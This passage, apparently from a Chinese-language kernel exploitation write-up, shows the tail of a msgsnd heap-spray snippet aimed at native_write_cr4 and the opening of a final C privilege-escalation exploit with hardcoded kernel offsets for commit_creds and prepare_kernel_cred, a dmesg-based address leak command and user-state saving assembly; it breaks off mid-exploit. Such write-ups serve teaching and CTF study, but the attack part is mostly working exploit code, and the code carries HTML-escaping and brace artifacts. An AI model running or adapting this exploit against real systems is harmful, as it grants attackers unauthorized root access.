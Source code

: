 ```
        return 0;
    `}`

    heap_spray_msgsnd(fd,native_write_cr4_addr,0x6E0);
    // 验证结果↓
    heap_spray_msgsnd(fd,0x4545454545454545,0);
    printf("Done!");
    return 0;
`}`
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-04-26-123353.png)

#### <a class="reference-link" name="%E6%8F%90%E6%9D%83&amp;%E6%9C%80%E7%BB%88Exploit"></a>提权&amp;最终Exploit

于是我们最后可以使用`commit_creds(prepare_kernel_cred(0));`完成最终提权！

```
//gcc ./exploit.c -o exploit -static -fno-stack-protector -masm=intel -lpthread
#include &lt;sys/mman.h&gt;
#include &lt;sys/wait.h&gt;
#include &lt;unistd.h&gt;
#include &lt;string.h&gt;
#include &lt;stdlib.h&gt;
#include &lt;arpa/inet.h&gt;
#include &lt;sys/stat.h&gt;
#include &lt;fcntl.h&gt;
#include &lt;sched.h&gt;
#include &lt;sys/ioctl.h&gt;
#include &lt;sys/types.h&gt;
#include &lt;stdio.h&gt;
#include &lt;sys/ipc.h&gt;
#include &lt;sys/msg.h&gt;
#include &lt;sys/socket.h&gt;

#define sys_ioctl_offset 0x22FB79
#define BUFF_SIZE 0x60
#define GREP_INFOLEAK "dmesg | grep SyS_ioctl+0x79 | awk '`{`print $3`}`' | cut -d '&lt;' -f 2 | cut -d '&gt;' -f 1 &gt; /tmp/infoleak"

void init()`{`
        setbuf(stdin,0);
        setbuf(stdout,0);
        setbuf(stderr,0);
`}`

size_t user_cs, user_rflags, user_ss, user_rsp;

size_t native_write_cr4_addr = 0x64500;
char* (*prepare_kernel_cred_addr)(int) = 0xA40B0;
void (*commit_creds_addr)(char *) = 0xA3CC0;

void save_user_status()`{`
    __asm__(
        "mov user_cs, cs;"
        "mov user_ss, ss;"
        "mov user_rsp, rsp;"
        "pushf;"
        "pop user_rflags;"
    );
    puts("[+] Save User Status");
    printf("user_cs = %pn",user_cs);
```